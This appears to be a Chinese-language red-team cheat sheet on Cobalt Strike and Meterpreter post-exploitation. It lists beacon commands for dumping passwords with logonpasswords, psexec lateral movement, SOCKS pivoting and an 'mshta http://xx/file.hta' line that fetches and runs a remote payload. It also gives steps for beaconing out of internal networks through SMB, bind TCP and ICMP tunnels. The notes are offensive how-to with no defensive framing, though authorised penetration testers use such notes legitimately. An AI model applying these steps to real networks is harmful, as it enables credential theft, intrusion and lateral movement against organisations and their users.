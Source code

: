 ### Other

meterpreter_reverse_tcp 是不分阶段的 payload，要生成 stageless exe.
[stager 和 stageless 区别](https://www.freebuf.com/articles/system/187312.html)

## Attack 使用

```shell
sleep 0
shell ipconfig
logonpasswords # 抓取密码 https://mp.weixin.qq.com/s?__biz=MzIwMDcyNzM0Mw==&mid=2247484470&idx=1&sn=b2f7b56028ddf701a903d981e58e324e
psexec # 链接同上
开启中转代理 # 右击主机 - Pivot - socks server(监听在cs server), 速度比较慢但省事, 可用 gost 转成socks 配合 fscan(建议用其他代理出来, 不然太慢)

# 1.exe # 2.hta
mshta http://xx/file.hta
```

### 多种上线方式/内网/代理

0. bind 方式上线
1. [SMB bacon](https://cloud.tencent.com/developer/article/2036092) [2](https://forum.butian.net/share/1644)
2. 中转 listenr, 用 tcp Listener, 步骤同 1
3. 代理上线 goproxy
4. 正向 tcp
5. 中转上线
6. [仅 ICMP 出网 pingtunnel 上线 msf&cs](https://xz.aliyun.com/t/10626#toc-9)
7. [仅 ICMP 出网 SPP 上线 Cobalt Strike](https://xz.aliyun.com/t/10626#toc-16)
8. pystinger

[bind_tcp | 内网隧道的多种应用方式 | cobalt strke 正向连接多层内网, 反向](https://mp.weixin.qq.com/s/iZxmQJQrLs7XP7XlhGfHmA)
[Pystinger 实现内网主机 CS 上线](https://blog.csdn.net/qq_38963246/article/details/115300897)

0.bind 方式上线

```
1) 生成 Stageless payload, 在目标机运行
2) 右击跳板机Session - Interactive
3) bind 目标ip
```

1.SMB bacon

```shell
1.新建 smb listener
2.上线主机右击: portscan,
3.扫出来的主机 右击 - Jump - psexec64 -选一个账号, - listener:smb
```

3.[代理上线](https://blog.csdn.net/st3pby/article/details/127683826)
